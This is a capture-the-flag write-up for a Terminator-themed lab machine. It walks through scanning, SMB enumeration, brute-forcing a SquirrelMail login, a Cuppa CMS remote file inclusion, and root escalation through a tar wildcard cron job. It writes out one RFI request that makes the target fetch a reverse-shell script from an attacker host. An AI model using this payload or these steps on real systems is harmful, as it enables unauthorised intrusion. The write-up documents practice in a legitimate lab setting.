

# Skynet

## Description

A vulnerable Terminator themed Linux machine.
* Category: Web Exploitation, SMB Exploitation, Brute Forcing, RFI, Cron Jobs, GTFOBins
* Difficulty: Easy

## Challenge

As we deploy the machine, we are given the IP address of the machine. We can start by scanning the machine using Nmap.

We can see 6 open ports: 22, 80, 110, 139, 143, and 445. Let's start by visiting the web server on port 80.

It is a simple search engine that looks suspiciously like Google. Let's try search for hidden directories using `gobuster`.

We found some interesting directories: `/admin`, `/config`, `/server-status`, and `/squirrelmail`. Let's visit them and see what we can find.

The 3 `/admin`, `/config`, and `/server-status` directories are blocked. Let's try `/squirrelmail`.

It is a login page for SquirrelMail. However, we don't have any credentials to login. We need to look somewhere else. From the Nmap scan, we know that there is an open port 445. Let's try using `enum4linux` to enumerate the machine.

Apart from common usernames, we found a username `milesdyson`.

We also found a private share of `milesdyson` and an `anonymous` share that is readable and writable. Let's try to access the `anonymous` share.

There is a file `important.txt` in the share. There are also 3 more log files in the `logs` directory. Let's download them and see what they contain.

A quick list reveals that only the `log1.txt` file is not empty among the logs.

The `important.txt` file contains a message from `milesdyson` to address a password change. The `log1.txt` file seems to be a password list. Let's try to use the passwords to login to the SquirrelMail. But first, we need to intercept the login request using Burp Suite.

We can see the login request in Burp Suite. Let's send it to the Intruder and brute force the password.

We can see that among the responses, there is only one password that returns a different status code. Let's try to login using the username `milesdyson` and that password.

We successfully logged into the SquirrelMail. Let's check the inbox.

The first email seems like a spam from `serenakogan`.

The second email contains a message in binary. Let's decode it.

And it is just a spamming one just like the first email. Let's check the third email.

It is saying that the password for smb of our user has been changed. Let's try to access the `milesdyson` share using the password we found.

Seems like a lot of research files. Among them, there is an `important.txt` note in the `notes` directory. Let's check it.

It's a to-do list! And it mentions a CMS URI. Let's try to access it.

It is a hidden website. Let's try to search for hidden directories using `gobuster`.

The gobuster found an `/administrator` directory. Let's visit it.

It's a login page for Cuppa CMS. Let's try to login using the credentials we found. We didn't have any luck. Maybe the credentials are different from the ones we found. Let's look up for any vulnerabilities with Cuppa CMS on Exploit Database.

There is an LFI/RFI vulnerability in Cuppa CMS. Let's try to exploit it. First, we need to get a reverse shell ready to be delivered. Then, we use netcat to listen for the connection. When everything is set, we can try to exploit the vulnerability. According to the exploit, we need to make a request to `http://<MACHINE-IP>/<HIDDEN-WEBSITE>/administrator/alerts/alertConfigField.php?urlConfig=http://<ATTACKER-IP>:<ATTACKER-PORT>/rev-shell.php`.

And we got a reverse shell! Let's look around a bit.

We found the user flag. Let's try to escalate our privileges. An interesting place to look is the `cron` jobs. Let's check them.

This is way too juicy! There is a cron job that runs the `backup.sh` script from `milesdyson` home directory as `root` every minute. We need to check our permissions on the script ASAP!

Darn it! We don't have write permissions on the script. But looking at the script, we can see that it goes through the `/var/www/html` directory and then run `tar cf /home/milesdyson/backups/backup.tar *`. This means that it is saving the contents of the `/var/www/html` directory to an archive in the `backups` directory of `milesdyson` home directory. We need to look on GTFOBins for `tar` to see if we can exploit it.

Sounds like we can! We need to create checkpoints in the `/var/www/html` and wait for the cron job to run. When it does, the job will spawn a shell as `root` for us. Since our shell is under the permissions of `www-data`, creating our checkpoints won't be a problem.

Now all we need to do is run a netcat listener on our machine and wait for the cron job to run.

We got the root flag! We successfully exploited the machine.